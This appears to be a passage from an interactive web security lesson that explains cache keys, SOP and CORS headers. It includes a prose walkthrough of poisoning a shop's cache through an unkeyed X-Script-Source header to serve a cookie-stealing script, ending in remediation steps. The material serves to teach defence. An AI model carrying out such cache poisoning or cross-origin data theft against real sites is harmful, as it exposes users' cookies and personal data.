These headers are used to validate the freshness of cached data. ETag header value stores a version of the resource and If-* headers define additional conditions of ETag verification.

### CACHE KEYS
When a cache receives a request for some resource, it needs to check if it has already saved a copy of this resource and can return it to the user immediately, or it needs to forward the request to the application server.

Identifying whether the user requests the same resource that is already stored in the cache can be tricky. Caches solve this problem by using the concept of cache keys. Some component of the HTTP request can be set as keys (in cache settings).

When a request comes to the cache server, it checks first which headers of that request are keyed. Then it takes all those keyed headers with their values together and calculates the hash. After that this hash is used to search through the cached responses (responses are stored together with hashes of keyed headers of respective requests).

In the right pane, you can see the animated diagram of the cache using keyed headers to calculate the hash for the incoming request and retrieve the correct cached response to the user. Note that it is a simplified description, and it might be not valid for all existing caching software.

### ATTACK INTRODUCED
The general idea of the Cache Poisoning attack is to make the cache save the resource that contains some malicious data and then serve it to users that request this resource. This attack allows performing a further XSS attack, defacing a page, redirecting a user to an arbitrary domain and bypassing access control mechanisms.

In this lesson, we will talk about basic Cache Poisoning using the unkeyed HTTP request components. During this attack, the hacker will send some malicious content in the unkeyed request header, hoping that it will be used in the response, cached and then served to other users of the application requesting the same resource.

### VULNERABLE APPLICATION
The vulnerable application pane loads the online shopping application LotsOfGoods.me. It uses X-Script-Source custom header to pass a domain name to the server, where this name will be used to generate the URL to run the counter script on the page. This header is unkeyed, so the cache doesn't use it for identification purposes.

### VULNERABILITY DETECTED
Bob is a hacker looking for possibilities for an attack on a yet-another shopping application. He is using his Burp Suite Param Miner plug-in against the LotsOfGoods.me application to find out which components (headers, cookies) of the HTTP request are unkeyed. In the scanning results, he sees that there is an unkeyed parameter in the request: X-Script-Source header.

The name of this header implies that it contains some information that allows detecting the path to the folder that contains scripts, and this path is probably used somewhere in the code of the page.

### VULNERABILITY TESTED
Bob analyzes the code of the web page and finds out that the domain name passed in the X-Script-Source header is used to create an URL of the counter script that is used on the page. Now Bob needs to test how far he can go with the exploitation of that unkeyed request component.

On his malicious server, he creates the folder structure that is the same as in the legitimate script link and puts there his malicious script that steals user cookies.

The only thing he needs to do next is to put the name of his malicious server into the X-Script-Source header of the intercepted request.

### VULNERABILITY EXPLOITED
To poison cache with his malicious request, Bob needs to make sure that he sends it to the application right after the current cached response expires. To define the correct time, he uses the values of the Age header and max-age directive of the Cache-Control header of the server response.

### MALICIOUS RESULT
Now each user that will request the LotsOfGoods.me homepage in the next 2400 seconds will receive Bob's malicious response from the cache server. The script will be executed in their browsers, and their cookies will be stolen.

### REMEDIATION
Manipulating unkeyed HTTP request component, an attacker can do a lot of harm if these components influence the page content. To prevent cache poisoning, you should do the following:

1. Cache only static data.

2. If you are using some third-party service for caching, check which security controls against cache poisoning it provides.

3. Do not trust any data from header directives of the HTTP requests. Always consider it tainted by default.

4. When you cache a page, make sure that all the headers of the HTTP request that influence the page content - are keyed. And vice versa, if some header is unkeyed, don't use it in any business logic that implies influencing the page content.

5. Check if your caching mechanism or framework is configurable to prevent cache poisoning.

### SAME-ORIGIN POLICY INTRODUCED
ame-Origin Policy (SOP) is a major security concept that is built-in in all contemporary browsers. Its main goal is to prevent access attempts of dynamic web page elements (like scripts) to data on resources of a different origin.

In the security context, SOP prevents malicious web sites from retrieving confidential data from restricted locations on behalf of users and without their acknowledgment.

User agents that are compliant with SOP, restrict requests issued from one origin to another origin. For example, popular JS libraries such as JQuery, XmlHttpRequests and Fetch API follow the Same-Origin Policy.

In the right pane, you can see the animated diagram of how SOP works when enabled in the browser.

### ORIGIN DEFINED
To identify an origin, SOP uses the scheme, the hostname (domain name with or without subdomains, or IP address), and the port number. If those three parameters of two resources match, then these resources have the same origin.

### SAME-ORIGIN POLICY DISABLED
Let us consider an example where there is no Same-Origin Policy at all.

Bob creates a website coolnews.me with funny cat pictures and adds there a basic javascript that makes a request to the website of a popular social network friendslist.me, reads the contents of a page with personal details exactly as the authenticated victim would, both body and headers, and sends them to Bob's server.

If he shares a link to his website on his social network page, then everyone who follows that link will involuntarily share their personal details with Bob.

### SAME-ORIGIN POLICY ENABLED
With Same-Origin Policy enabled, the browser allows only some basic HTTP requests (e.g. GET and POST requests without any custom HTTP headers) from the resource of one origin to the resource of another origin, and will never allow a script from the Coolnews.me to read the response from the Friendslist.me (unless CORS is also enabled).

In the case with Bob's malicious page, the browser will first send a preflight request to the Friendslist.me website to ensure that the request is allowed, and, since Friendslist.me knows nothing about Coolnews.me and doesn't trust it, it disallows the access. The browser will then prevent the malicious request from ever being sent.

### CROSS-ORIGIN RESOURCE SHARING INTRODUCED
Cross-Origin Resource Sharing (CORS) is a way to deliberately disable SOP. We may need it for implementation of some business logic that requires sending requests to another origin, like performing interactions with cloud services, creating a single-page design, using sharing or liking functionality, etc.

The main idea of CORS is to negotiate with the server on the conditions of the cross-origin request. As a result, either a resource from one origin will be allowed to send an HTTP request to the resource from another origin and read the contents of the response, or the request will be aborted due to the disabled cross-origin resource sharing.

In the right pane, you can see that the cross-origin request to the server that provides stock market quotes for the news website was aborted.

### PREFLIGHT REQUEST CONDITIONS
For the requests that do not meet the requirements below, negotiation on the conditions of the cross-origin request is performed using a preflight request. Preflight requests are triggered when the following conditions are NOT met.

1. An initial cross-origin request uses GET, HEAD or POST methods. For POST method, only application/x-www-form-urlencoded, multipart/form-data, or text/plain content types are allowed.

2. The cross-origin request doesn't contain custom HTTP headers and includes only the headers explicitly allowed by the CORS policy.

3. No event listeners are registered on an XMLHttpRequestUpload object that is used in the cross-origin request.

4. No ReadableStream objects are used in the cross-origin request.

In other words, a cross-origin request that meets the conditions above doesn't trigger the preflight request.

Instead of the preflight request, negotiation on the conditions is performed using the Origin header in the request, and the Access-Control-Allow-Origin header in the response. If the Access-Control-Allow-Origin header contains the specified origin or an asterisk, the content of the response becomes accessible to the code that performed the request.

### PREFLIGHT REQUEST
When the preflight request is triggered, the initial request is postponed until the server confirms the properties of the request to be sent. The preflight request is an HTTP OPTIONS request that contains Origin header and may include CORS-specific headers.

### CROSS-ORIGIN COMMUNICATION HEADERS
CORS mechanism uses several HTTP headers to agree on cross-origin communication parameters.

Origin

This header indicates the origin that initiates a request

Access-Control-Request-Method

This header indicates the HTTP request methods that will be used in the further cross-origin request

Access-Control-Request-Headers

The header indicates the headers that will be used in the further cross-origin request

Access-Control-Allow-Origin

The header specifies the origin that may access the requested resource. If the header value is * then any origin may access the resource.

Access-Control-Max-Age

The header specifies how long information from Access-Control-Allow-Methods and Access-Control-Allow-Headers should be cached.

Access-Control-Allow-Methods

The header specifies the method or methods that may be used in the original cross-origin requests to the resource.

Access-Control-Expose-Headers

The header specifies the list of headers that browsers are allowed to access in the original cross-origin header when a requester processes the response.

Access-Control-Allow-Credentials

The header indicates that the server will accept the original request if it contains credentials. In this case, credentials may be one of the following: HTTP cookies, TLS certificates, and HTTP authentication headers.

In order to use credentials, the requesting origin should declare that their usage explicitly e.g. set XHRObject.withCredentials = true or set a fetch request credentials mode to "include".

The header usually contains "true" value or is not present.

Access-Control-Allow-Headers

The header specifies the headers that may be used in the original cross-origin requests to the resource. Simple response headers are available by default, but custom headers will require whitelisting.

